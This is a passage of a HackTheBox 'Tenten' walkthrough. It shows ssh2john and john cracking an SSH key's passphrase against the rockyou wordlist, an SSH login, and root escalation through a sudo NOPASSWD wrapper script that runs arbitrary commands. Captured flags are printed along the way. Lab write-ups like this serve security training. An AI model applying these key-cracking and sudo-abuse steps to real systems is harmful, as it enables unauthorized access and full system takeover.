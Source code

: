 Now that we have some encrypted RSA private key, we have to crack it. We can use `ssh2john` to create a hash of the private key and then crack it with `john`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# ssh2john id_rsa > hashed_id_rsa               

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# john hashed_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt 
...
superpassword    (id_rsa)     
```

The password is `superpassword`! Now we can connect to SSH using the credentials found.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# chmod 400 id_rsa                 
                           
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# ssh -i id_rsa takis@10.10.10.10  
...
takis@tenten:~$ 
```

# Privilege Escalation

```bash
takis@tenten:~$ id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
takis@tenten:~$ fuckin echo test test2 test3
test test2 test3
```

So apparently this user can run `fuckin` as root. The script runs the first argument with the second, third and fourth argument as arguments. We can simply abuse this by running `fuckin bash`.

```bash
takis@tenten:~$ sudo fuckin bash
...
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tenten:~# cat /home/takis/user.txt
8ef36d6f5cc7bf1a84017518d36c6de0
root@tenten:~# cat /root/root.txt 
cfaf23144b976ea8d87504f51796eb4c
```

 
